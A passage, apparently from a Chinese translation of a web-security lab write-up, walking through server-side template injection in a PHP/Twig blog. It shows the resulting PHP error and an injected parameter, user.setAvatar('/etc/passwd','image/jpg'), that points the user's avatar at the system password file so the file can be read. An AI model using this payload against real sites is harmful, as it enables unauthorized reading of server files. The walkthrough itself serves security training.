 错误

我们可以看到它导致了一个错误。

```
PHP Fatal error: Uncaught ArgumentCountError: Too few arguments to function User::setAvatar(), 1 passed in /usr/local/envs/php-twig-
```

我们的函数 setAvatar(file，mime-type)有 2 个参数，我们只传递了一个。

让我们传递另一个 mime 类型。

![](img/bf639a7c2203504b7f833eca79cad446.png)

```
blog-post-author-display=user.setAvatar('/etc/passwd','image/jpg')
```

现在发送请求。

![](img/d78f351acbb896879aa8b929349271f3.png)

标准载荷

我们可以看到我们的页面加载正常，我们有一个图像类型，让我们在一个新的标签打开它。

